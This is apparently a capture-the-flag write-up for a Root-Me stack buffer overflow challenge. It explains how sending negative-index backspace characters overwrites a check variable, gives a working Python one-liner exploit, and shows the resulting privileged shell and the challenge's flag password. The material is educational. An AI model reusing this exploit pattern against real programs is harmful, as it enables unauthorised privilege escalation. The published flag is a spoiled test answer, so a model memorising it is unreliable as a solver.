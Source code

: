 # ELF x86 - Stack buffer overflow basic 3 
https://www.root-me.org/en/Challenges/App-System/ELF32-Stack-buffer-overflow-basic-3
```

Environment configuration :
PIE 	Position Independent Executable 	 No 
RelRO 	Read Only relocations 	                 Yes 
NX 	Non-Executable Stack 	                 Yes 
ASLR 	Address Space Layout Randomization 	 No 
SF 	Source Fortification 	                 No 
SSP 	Stack-Smashing Protection 	         No 
SRC 	Source code access 	                 Yes 

Challenge connection informations :

Host	        challenge02.root-me.org
Protocol	SSH
Port	        2222
SSH access 	ssh -p 2222 app-systeme-ch16@challenge02.root-me.org   
Username	app-systeme-ch16
Password	app-systeme-ch16
```
The source code is available and it's pretty clear that one can control the index of the buffer (_count_) at each character entered.<br>
The problem is that the buffer is growing upwards (to higher addresses), while the stack grows downwards (to lower addresses). So we'll not be able to overwrite the _check_ variable just like that.<br>
Luckily, _count_ is a signed integer, which means it can be negative. So, because we can increase the count (using any character which is not '\x08') and **decrease** it (using the '\x08' character). 
After trying to decrease count to -4 so _buffer[count]_ will point to _check_ (hopefully), one can get the following output:

```sh
app-systeme-ch16@challenge02:~$ cat <(python -c 'print "\x08"*4+"\xbc\xfa\xff\xbf"') - | ./ch16
Enter your name: id
uid=1116(app-systeme-ch16) gid=1116(app-systeme-ch16) euid=1216(app-systeme-ch16-cracked) groups=1216(app-systeme-ch16-cracked),100(users),1116(app-systeme-ch16)
cat .passwd
Sm4shM3ify0uC4n
```
